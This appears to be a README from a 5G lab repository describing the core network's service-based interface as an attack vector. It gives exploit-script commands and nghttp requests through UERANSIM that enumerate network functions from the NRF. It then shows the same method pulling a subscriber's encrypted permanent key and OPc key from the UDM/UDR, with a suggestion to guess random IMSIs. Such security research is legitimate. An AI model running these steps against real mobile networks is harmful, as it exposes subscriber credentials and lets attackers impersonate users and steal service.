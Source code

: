 # The service based interface as an attack vector

## Finding functions of IP addresses 

After a succesfull NMAP scan you probably have a range of ip addresses that you suspect to be a NFs. You can use the SBI to find out which is a NRF and from there what the other NFs are.

```console
user@ue_vm:~/5G/UE_VM/Exploit_Scripts/SBI$ ./find_nrf.sh -n <list of suspected nrfs> -i <interface>
```

## Checking NFs

If you ask the nrf it will respond with all the registered nfs.

```console
user@ue_vm:~/UERANSIM/build$ ./nr-binder 10.45.0.29 nghttp http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances
{
	"_links":	{
		"items":	[{
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/4424e10c-b91f-41ed-b63c-6de5d08235f5"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/(null)"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/43d16e14-b91f-41ed-b49c-f98481dc4b43"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/44cae8fe-b91f-41ed-b183-37f999dfcad0"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/443fb23e-b91f-41ed-a76b-27c3b6dd6eb0"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/4480ec36-b91f-41ed-bbb3-f312db251f3b"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/445bb7a4-b91f-41ed-807f-159b80cdce04"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/43ccaa6e-b91f-41ed-9c82-59e9ae72412b"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/44b4ba20-b91f-41ed-bcf2-15223ef57432"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/4495ab30-b91f-41ed-937f-9fe1903c6cb7"
			}],
		"self":	{
			"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances"
		}
	}
}

```

Now we can check every indvidual uri and find out more about the NFs, here we choose a single href and see what we get.

```console
user@ue_vm:~/UERANSIM/build$  ./nr-binder 10.45.0.29 nghttp http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/43ccaa6e-b91f-41ed-9c82-59e9ae72412b
{
	"nfInstanceId":	"43ccaa6e-b91f-41ed-9c82-59e9ae72412b",
	"nfType":	"AMF",
	"nfStatus":	"REGISTERED",
	"heartBeatTimer":	10,
	"ipv4Addresses":	["10.0.3.1"],
	"allowedNfTypes":	["SMF", "SCP"],
	"priority":	0,
	"capacity":	100,
	"load":	0,
	"nfServiceList":	{
		"43ccd6d8-b91f-41ed-9c82-59e9ae72412b":	{
			"serviceInstanceId":	"43ccd6d8-b91f-41ed-9c82-59e9ae72412b",
			"serviceName":	"namf-comm",
			"versions":	[{
					"apiVersionInUri":	"v1",
					"apiFullVersion":	"1.0.0"
				}],
			"scheme":	"http",
			"nfServiceStatus":	"REGISTERED",
			"ipEndPoints":	[{
					"ipv4Address":	"10.0.3.1",
					"port":	7777
				}],
			"allowedNfTypes":	["SMF"],
			"priority":	0,
			"capacity":	100,
			"load":	0
		}
	},
	"nfProfileChangesSupportInd":	true
}
```

The script ```find_nfs.sh``` does the top two actions together, requests the nrf for all registered nfs and then asks for more information on each.

```console
user@ue_vm:~/5G/UE_VM/Exploit_Scripts/SBI$ ./check_nr.sh -n <nrf_ip> -i <interface> 
```

Now we have the addresses functions and various other information of all NFs connected to the nrf.


## Checking UEs

If we have the UE imsis we can find out really everything we could need to know about a particular UE. Even their slice, dnn, encPermanentKey, sequenceNumber, and encOpcKey information. Everything we need to use their data for a connection. If you dont know their IMSI you can just test random imsis until you find one.

```console
user@ue_vm:~/5G/UE_VM/Exploit_Scripts/SBI$ ./check_ue.sh -m <udm_ip> -r <udr_ip> -i <interface> -u <ue_imsi> 
nghttp http://10.0.15.1:7777/nudm-sdm/v2/imsi-901700000000001/smf-select-data

{
	"subscribedSnssaiInfos":	{
		"{\n\t\"sst\":\t1\n}":	{
			"dnnInfos":	[{
					"dnn":	"internet",
					"defaultDnnIndicator":	true
				}]
		}
	}
} nghttp http://10.0.15.1:7777/nudm-sdm/v2/imsi-901700000000001/am-data

{
	"subscribedUeAmbr":	{
		"uplink":	"1048576 Kbps",
		"downlink":	"1048576 Kbps"
	},
	"nssai":	{
		"defaultSingleNssais":	[{
				"sst":	1
			}]
	}
}
 nghttp http://10.0.15.1:7777/nudm-sdm/v2/imsi-901700000000001/usm-data

{
	"type":	"/nudm-sdm/v2",
	"title":	"Invalid resource name",
	"status":	400,
	"detail":	"GET",
	"instance":	"/imsi-901700000000001/usm-data"
}
 nghttp http://10.0.15.1:7777/nudm-sdm/v2/imsi-901700000000001/ue-context-in-smf-data

{
}
 nghttp http://10.0.15.1:7777/nudm-sdm/v2/imsi-901700000000001/sm-data?dnn=internet&single-nssai={"sst":1}

[{
		"singleNssai":	{
			"sst":	1
		},
		"dnnConfigurations":	{
			"internet":	{
				"pduSessionTypes":	{
					"defaultSessionType":	"IPV4V6",
					"allowedSessionTypes":	["IPV4", "IPV6", "IPV4V6"]
				},
				"sscModes":	{
					"defaultSscMode":	"SSC_MODE_1",
					"allowedSscModes":	["SSC_MODE_1", "SSC_MODE_2", "SSC_MODE_3"]
				},
				"5gQosProfile":	{
					"5qi":	9,
					"arp":	{
						"priorityLevel":	8,
						"preemptCap":	"NOT_PREEMPT",
						"preemptVuln":	"NOT_PREEMPTABLE"
					},
					"priorityLevel":	8
				},
				"sessionAmbr":	{
					"uplink":	"1048576 Kbps",
					"downlink":	"1048576 Kbps"
				}
			}
		}
	}]
 nghttp http://10.0.16.1:7777/nudr-dr/v1/subscription-data/imsi-901700000000001/authentication-data/authentication-subscription

{
	"authenticationMethod":	"5G_AKA",
	"encPermanentKey":	"465b5ce8b199b49faa5f0a2ee238a6bc",
	"sequenceNumber":	{
		"sqn":	"000000001fc1"
	},
	"authenticationManagementField":	"8000",
	"encOpcKey":	"e8ed289deba952e4283b54e88e6183ca"
}

```

